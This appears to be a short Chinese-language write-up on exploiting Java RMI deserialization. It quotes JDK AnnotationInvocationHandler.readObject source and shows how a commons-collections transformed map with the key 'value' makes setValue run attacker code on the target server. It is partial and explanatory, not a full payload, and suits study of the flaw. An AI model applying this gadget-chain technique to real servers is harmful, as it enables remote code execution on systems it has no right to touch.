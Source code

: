 # rmi-反序列化漏洞
大概的思想就是将恶意代码打包成对象，作为RMI的参数，在目标服务器反序列化这个对象的时候触发这段代码，以达到不可告人的小秘密。

# 0x01
AnnotationInvocationHandler这个类继承于Serializable，是可以作为序列化的参数的，该类的readObject方法是长这个样子的：
```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly
    AnnotationType annotationType = null;

    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```
关键的点就在于最后的memberValue.setValue，memberValue是map中的value，如果能在这个方法里调用自己的代码，就可以达到目的了。
恰好，common-collections包中的TransformMap类符合这个要求，这个类的setValue会调用一系列装饰器，而这些装饰器恰好可以执行反射代码。所以只需要在构造AnnotationInvocationHandler的时候传入类型为TransformMap的对象就好了。

# 0x02
之前代码中的map是这样构造的：
```java
Map<String, String> inner = new HashMap<String, String>();
inner.put("key", "value");
Map<String, String> outer = TransformMap.decorate(inner);
```    
但是每次执行的时候，都会抛出异常，内容如下：
```java
Registry.rebind disallowed; origin /xxx.xxx.xxx.xxx is non-local host. 
```    
这个异常的意思是RMI注册表的服务不能远程注册，但是这个漏洞是在注册之前触发的，讲道理不应该会抛这个异常，后来查了下，发现map要这样构造：
```java
Map<String, String> inner = new HashMap<String, String>();
inner.put("value", "xxx");
Map<String, String> outer = TransformMap.decorate(inner);
```    
因为AnnotationInvocationHandler.readObject方法中要根据key来取对应注解的方法，注解Target中恰好有个value方法，所以要将key设置为value，Entry的value值随便设置。
